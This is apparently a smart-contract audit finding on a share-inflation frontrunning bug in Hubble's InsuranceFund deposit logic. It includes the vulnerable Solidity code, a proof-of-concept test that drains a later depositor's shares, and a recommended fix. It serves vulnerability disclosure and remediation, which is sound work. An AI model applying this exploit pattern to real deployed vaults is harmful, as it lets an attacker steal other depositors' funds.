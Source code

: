 0x3e84fa45

high

# Deposits in InsuranceFund can be stolen by frontrunning initial shares calculation

## Summary
Frontrunning the InsuranceFund liquidity initialization sets the minting of shares calculation in `deposit()` for subsequent depositors minting 0 shares, leaving the frontrunner with the only share minted that can withdraw all the deposited funds.
## Vulnerability Detail
The first `deposit()` mints `shares = amount`, and the posterior depositors base the amount of shares they get based on the existing shares and the total pool value with the following formula:

`shares = amount * _totalSupply / _pool`. 

We can see that if `amount * _totalSupply` is lower than `_pool`, the division is gonna result in a share amount of 0.

```Solidity

    function depositFor(address to, uint amount) override public {
        settlePendingObligation();
     
        require(pendingObligation == 0, "IF.deposit.pending_obligations");

        uint _pool = _totalPoolValue();
        uint _totalSupply = totalSupply();
        uint vusdBalance = balance();
        if (_totalSupply == 0 && vusdBalance > 0) { 
            vusd.safeTransfer(governance(), vusdBalance);
            _pool = 0;
        }

        vusd.safeTransferFrom(_msgSender(), address(this), amount);
        uint shares = 0;
        if (_pool == 0) {
            shares = amount;
        } else {
            shares = amount * _totalSupply / _pool;
        }
        _mint(to, shares);
        emit FundsAdded(to, amount, _blockTimestamp());
    }
```

If a malicious actor frontruns the initial deposit transaction and deposits an amount of `1 VUSD`, and following this transfers `X` amount of VUSD into the pool, due to the previous calculation any amount deposited in subsequent transactions will be multiplied by the `_totalSupply` of `1` and divided by the `_totalPoolValue()`. If the amount deposited is _lower than_ `X + 1` it is going to mint `0` shares, leaving the deposited funds attributed to the only share of the pool.

PoC:

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.9;

import "./Utils.sol";

contract ShareExploit is Utils {
    uint8 constant DECIMALS = 6;
    uint256 constant PRECISION = 10 ** DECIMALS;

    function setUp() public {
        setupContracts();
    }

    function testShareExploit() public {
        uint256 amount = 1000e6 + 1;
        mintVusd(address(this), amount);

        // deposit the smallest unit of VUSD
        husd.approve(address(insuranceFund), type(uint256).max);
        insuranceFund.deposit(1);
        assertEq(insuranceFund.totalSupply(), 1);
        assertEq(insuranceFund.balance(), 1);
        assertEq(insuranceFund.pricePerShare(), 1 * PRECISION);

        // transfer 1000 VUSD to directly to insuranceFund
        husd.transfer(address(insuranceFund), 1000e6);
        assertEq(insuranceFund.totalSupply(), 1);
        assertEq(insuranceFund.balance(), 1000e6 + 1);
        assertEq(insuranceFund.pricePerShare(), (1000e6 + 1) * PRECISION);

        // alice attempst to mint less than the balance (1000e6 + 1) and mints nothing
        mintVusd(alice, 1000e6);
        vm.startPrank(alice);
        husd.approve(address(insuranceFund), type(uint256).max);
        insuranceFund.deposit(1000e6);
        assertEq(insuranceFund.balanceOf(alice), 0);
        assertEq(insuranceFund.totalSupply(), 1);
        assertEq(insuranceFund.balance(), 2000e6 + 1);
    }
}




```
## Impact
The depositor's funds can be stolen by the malicious actor if the deposit amount is lower than the pool value.
## Code Snippet
https://github.com/hubble-exchange/hubble-protocol/blob/d89714101dd3494b132a3e3f9fed9aca4e19aef6/contracts/InsuranceFund.sol#L89C1-L111C6
## Tool used

Manual Review

## Recommendation
Both the recommendations of [issue 42](https://github.com/code-423n4/2022-02-hubble-findings/issues/42) and [issue 116](https://github.com/code-423n4/2022-02-hubble-findings/issues/116) are reasonable, with the advantage of issue 116 not having any cost to be implemented.
```Solidity 
  if (_pool == 0) {
            shares = _amount * 10 ** 18;
        } else {
```